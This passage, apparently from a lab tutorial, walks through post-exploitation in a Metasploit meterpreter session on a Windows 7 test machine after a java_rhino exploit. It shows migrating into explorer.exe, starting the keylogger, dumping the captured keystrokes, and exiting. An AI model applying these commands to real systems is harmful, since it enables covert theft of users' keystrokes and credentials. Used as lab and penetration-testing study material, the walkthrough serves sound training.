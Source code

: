 ![crack-station-pass](https://googledrive.com/host/0B4vYKT_-8g4IWE9kS2hMMmFuXzg/ms-java-rhino/crack-station-pass.png)

### Setup Key Logging
In order to setup keylogging we need to migrate the metasploit process to a more stable process, for example **explorer.exe** :) First let's figure out the *PID* of **explorer**:

	meterpreter > ps -S explorer
	
	
	Process list
	============
	
	 PID   Name               Arch  Session  User                          Path
	 ---   ----               ----  -------  ----                          ----
	 1180  iexplore.exe       x86   2        WIN7\Administrator      C:\Program Files\Internet Explorer\iexplore.exe
	 1748  iexplore.exe       x86   2        WIN7\Administrator      C:\Program Files\Internet Explorer\iexplore.exe
	 3964  explorer.exe       x86   2        WIN7\Administrator      C:\Windows\Explorer.EXE
	
	
	meterpreter > 

Looks like in our case that's **3964**, so let's migrate to that:

	meterpreter > migrate 3964
	[*] Migrating from 2156 to 3964...
	[*] Migration completed successfully.
	meterpreter > 

Now let's start the key logger:

	meterpreter > keyscan_start 
	Starting the keystroke sniffer...
	meterpreter > 

Back on the windows 7 machine let's start up **notepad** and write something:

![win7-notepad-keylog](https://googledrive.com/host/0B4vYKT_-8g4IWE9kS2hMMmFuXzg/ms-java-rhino/win7-notepad-keylog.png)

After that go back to the metasploit console and dump the keylogger information:

	meterpreter > keyscan_dump 
	Dumping captured keystrokes...
	These are my rn <Back> andom notes
	meterpreter > 

I mistyped *random* and had to backspace :) That wasn't too bad.

### Stopping the Exploit
At this point we can just disconnect from the session and metasploit:

	meterpreter > exit
	[*] Shutting down Meterpreter...
	
	[*] 192.168.1.20 - Meterpreter session 1 closed.  Reason: User exit
	msf exploit(java_rhino) > exit
	
	[*] Server stopped.
	root@kali:~# 
